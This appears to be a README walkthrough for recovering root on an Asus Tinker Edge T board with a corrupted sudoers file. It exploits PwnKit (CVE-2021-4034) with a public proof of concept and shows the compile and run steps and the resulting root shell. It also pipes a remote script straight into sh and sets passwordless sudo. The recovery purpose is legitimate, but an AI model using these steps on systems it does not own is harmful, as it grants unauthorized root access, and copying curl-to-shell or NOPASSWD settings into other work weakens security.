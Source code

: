 # Fixing Asus Tinker Edge T broken sudoers with PwnKit

Vendor page: <https://tinker-board.asus.com/product/tinker-edge-t.html>

## Why?

At this moment there is bug in official Asus [**Mendel 5 Eagle V3.0.2**](https://tinker-board.asus.com/forum/index.php?/topic/14395-release-tinker-edge-t-mendel-5-eagle-v302/) OS causing unable to use `sudo` command:
```
>>> /etc/sudoers: syntax error near line 28 <<<
sudo: parse error in /etc/sudoers near line 28
sudo: no valid sudoers sources found, quitting
sudo: unable to initialize policy plugin
```
Simple speaking: file `/etc/sudoers` is corrupted somehow and you **can not run any command with `sudo`**, for exaple `sudo apt-get update`. There is not other option how to switch to `root` user and you are locked in low privileged user. 

Or not? :)

## Hacking time!

Lets start with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Most valuable part:
```
═════════════════════════════════════════╣ Interesting Files ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 31K Jan 10  2019 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 47K Jan 10  2019 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 59K Jan 10  2019 /bin/su
-rwsr-xr-x 1 root root 74K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 150K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 59K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 40K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 19K Nov  8  2019 /usr/bin/weston-launch (Unknown SUID binary)
-rwsr-xr-x 1 root root 23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 415K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 46K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Binary called `polkit-agent-helper-1` caught my attention. In January 2022 vulnerability (CVE-2021-4034) in Polkit was discovered by [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034):

> The Qualys Research Team has discovered a memory corruption vulnerability in polkit’s pkexec, a **SUID-root program that is installed by default on every major Linux distribution**. This easily exploited vulnerability allows any unprivileged user to gain full root privileges on a vulnerable host by exploiting this vulnerability in its default configuration.

So, it was pretty huge chance, that Mendel GNU/Linux (which is based on Debian GNU/Linux) is vulnerable too!

I choosed most rated exploit on Github: <https://github.com/arthepsy/CVE-2021-4034>. Usage is straightforward:

```
cd /home/mendel/
wget https://github.com/arthepsy/CVE-2021-4034/archive/refs/heads/main.zip
unzip main.zip
cd CVE-2021-4034-main/
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
```

There should not be any error after compilation and we are ready to use exploit:
```
./cve-2021-4034-poc
```
and...
```
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),27(sudo),29(audio),44(video),46(plugdev),50(staff),60(games),100(users),103(netdev),107(input),109(render),110(i2c),112(systemd-journal),116(bluetooth),1000(mendel),1001(apex)
```
we are root!

Stabilizing shell first:
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=linux
```

Next step is fixing `/etc/sudoers` file:
```
nano /etc/sudoers
```

As you can see on line 28 are some meaningless characters:
```
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@
```

Delete this line completely.

There is example of passwordless `sudo` for user is `sudo` group:
```
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo  ALL=(ALL) NOPASSWD: ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```

Create new SSH connection as `mendel` user and test it:
```
mendel@king-finch:~$ sudo su -
root@king-finch:~# id
uid=0(root) gid=0(root) groups=0(root)
root@king-finch:~#
```